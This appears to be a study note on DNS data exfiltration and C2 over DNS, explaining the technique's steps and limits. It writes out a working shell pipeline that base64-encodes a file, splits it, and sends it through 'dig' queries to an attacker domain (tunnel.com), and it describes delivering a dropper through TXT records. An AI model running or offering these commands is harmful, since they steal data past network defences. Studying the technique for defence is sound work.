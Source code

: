 - A record that point to the attacker's IP.
- NS record that routs DNS queries to the A records (full domain name).

## Exfiltration Over DNS

##### What is DNS Data Exfiltration?

DNS isn't usually monitored because it's not a data transfer protocol, making it a good target for attackers.

Some limitations:

- The max length of the FQDN is 255 characters.
- The subdomain name (label) must not exceed 63 characters.

![[8bbc858294e45de16712024af22181fc.png]]

For this reason a large files will require a lot of DNS packets, which will make a lot of noise and can be easily detected.

DNS exfiltration steps:

1. An attacker registers a domain name, for example, **tunnel.com** 
2. The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
3. The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where **passw0rd** is the data that needs to be transferred.
4. The DNS request is sent through the local DNS server and is forwarded through the Internet.
5. The attacker's authoritative DNS (malicious server) receives the DNS request.
6. Finally, the attacker extracts the password from the domain name.

##### When do we Need to use the DNS Data Exfiltration

In many cases for example if the firewall allows DNS traffic and blocks other traffic.

##### DNS Data Exfiltration

You need to encode the data and send it as discussed.

`sudo tcpdump -i eth0 udp port 53 -v ` - Capture the network traffic for DNS requests.
`cat <file> | base64` - From the target machine make a base64 representation of the data in the file you want to exfiltrate.
`cat <file> | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'` - Split the data to multiple requests, based on the size.
or
`cat <file> |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/` - Split every 18 characters with a dot in a single request.
`cat file |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash` - Send the DNS request.

##### C2 Communications over DNS

C2 frameworks use DNS for sending command execution request and receiving the result, they also use the TXT record to run a dropper.

You can add a base64 representation of a script you want to execute as TXT record to a domain you control.
